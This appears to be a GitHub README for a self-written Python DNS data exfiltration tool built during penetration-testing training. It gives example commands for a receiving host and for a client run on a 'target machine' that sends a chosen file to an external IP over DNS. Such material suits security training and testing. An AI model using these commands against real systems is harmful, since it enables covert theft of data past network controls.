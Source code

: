 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, about the DNS protocol and how data exfiltration works. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode. For example:
```
python3 dns-exfil.py -mode host -hostip "127.0.0.1" -password "my_secret_password_used_for_intransit_data_encryption"
```

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 dns-exfil.py -mode client -dest "your_public_machine_ip" -password "the_same_secret_password_as_set_on_the_host_script" -file "/path/to/the/file/you/want/to/exfil"
```

### More help
```
python3 dns-exfil.py -h
```
